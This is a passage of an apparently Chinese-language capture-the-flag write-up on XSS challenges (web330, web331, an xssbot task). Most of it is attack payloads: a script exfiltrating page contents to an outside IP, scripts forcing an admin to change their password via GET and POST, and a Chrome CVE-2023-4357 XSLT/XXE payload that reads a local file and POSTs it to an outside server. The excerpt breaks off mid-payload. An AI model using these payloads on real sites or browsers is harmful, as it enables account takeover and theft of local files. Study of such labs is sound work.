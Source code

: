 ```
<script>var img = new Image();img.src = "http://47.96.41.103:9856/"+document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;document.body.append(img);</script>
```



## web330

多了一个更改密码的地方。我们可以xss，让admin自己跳转到改密码的路由把自己密码改了我们再登录上去

```
<script>window.location.href='http://127.0.0.1/api/change.php?p=123123';</script>
```



## web331

这次的改密码是post请求的。用下面payload修改

```
<script>$.ajax({url:"api/change.php",method:"POST",data:{'p':'123123'}})</script>
```





## XSS提高

### xssbot

看代码意思就是我写一个文件进去。然后他里面起一个http的web服务器，然后自己去访问我们写进去的那个页面。

然后用来访问的是谷歌的浏览器

我们直接搜谷歌的cve打就行了。能任意读文件的

https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE/blob/main/d.svg?short_path=bd1a60d

最后的payload

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
  <!ENTITY passwd_p        "file:///flag">
  <!ENTITY passwd_c SYSTEM "file:///flag">
]>   
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <div style="display:none">
        <p class="&passwd_p;">&passwd_c;</p>
      </div>
      <div style="width:40rem" id="r" />
      <script>
        var element = document.querySelector('p');
    var passwd_p = element.className;
    var passwd_c = element.textContent;
const url = 'http://43.143.192.19:1145';
const formData = new URLSearchParams();
formData.append('key1', passwd_p);
formData.append('key2', passwd_c);

fetch(url, {
  method: 'POST',
  headers: {
```